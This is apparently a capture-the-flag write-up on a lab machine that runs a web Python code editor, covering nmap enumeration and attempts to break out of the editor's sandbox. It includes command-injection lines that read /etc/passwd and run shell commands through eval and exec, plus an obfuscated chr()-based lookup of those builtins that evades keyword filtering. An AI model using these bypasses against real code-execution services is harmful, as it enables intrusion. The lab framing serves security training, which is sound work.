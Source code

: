 The first thing IP Address: 10.129.36.102

NMAP Enumeration:

```
└──╼ [★]$ nmap -A -sC -sV  10.129.36.102
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-26 05:50 CDT
Nmap scan report for 10.129.36.102
Host is up (0.0092s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT     ADDRESS
1   8.91 ms 10.10.14.1
2   9.15 ms 10.129.36.102

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.58 seconds

```

From the enumeration, there is a 5000 port opened, which is http protocol. While opening it, there is a python interpreter. 

See the Figure 1:
![](image.png)

Python Version: ``` 3.8.10 ``` 
More information: https://www.vicarius.io/vsociety/posts/cve-2023-24329-bypassing-url-blackslisting-using-blank-in-python-urllib-library-4

By trying this, there is no such run, which give us an answer. 

There is another function, called globals()
Let's see: 
in Python, the globals() function is a built-in function that returns a dictionary representing the current global symbol table. A symbol table is a data structure that contains all necessary information about the program. These include variable names, methods, classes. 

See the Figure 2:
![](image-1.png)

There are useful for pentester functions: eval(), exec(). 
For example, we can use next:

If there's an interactive Python environment or a way to inject Python code (such as via input fields or HTTP requests), you could try:

import os
os.system("cat /etc/passwd")

eval("__import__('os').system('ls -la')")

exec("__import__('subprocess').getoutput('id')")

For trying it, we have some same answer fetched by the python interpreter:

See the Figure 3:
![alt text](image-2.png)

See the Figure 4:
![alt text](image-3.png)

So, lets see Figure 5:
![alt text](image-4.png)

There is something I have  got with obfuscation:

```

built_name = ''.join([chr(95), chr(95), chr(98), chr(117), chr(105), chr(108), chr(116), chr(105), chr(110), chr(115), chr(95), chr(95)]) 
built_ref = globals().get(built_name, None) 

ev_name = ''.join([chr(101), chr(118), chr(97), chr(108)])  #
ex_name = ''.join([chr(101), chr(120), chr(101), chr(99)])  #'


ev_func = built_ref.get(ev_name, None)
ex_func = built_ref.get(ex_name, None)   


if ev_func:
    expression = ''.join([str(50), ' + ', str(51)])  # This builds '2 + 3'
    result = ev_func(expression)
    print("Obfuscated Result of ev:", result)
else:
    print("ev function not found!")
if ex_func:
    code = ''.join([
        'result = ',  
        str(50), ' + ', str(51)  
    ])  
    ex_func(code)
    print("Ob Result of ex:", result)
else:
    print("ex function not found!")
```

Interpreter Answer:
```
Obfuscated Result of ev: 101 Ob Result of ex: 101  
```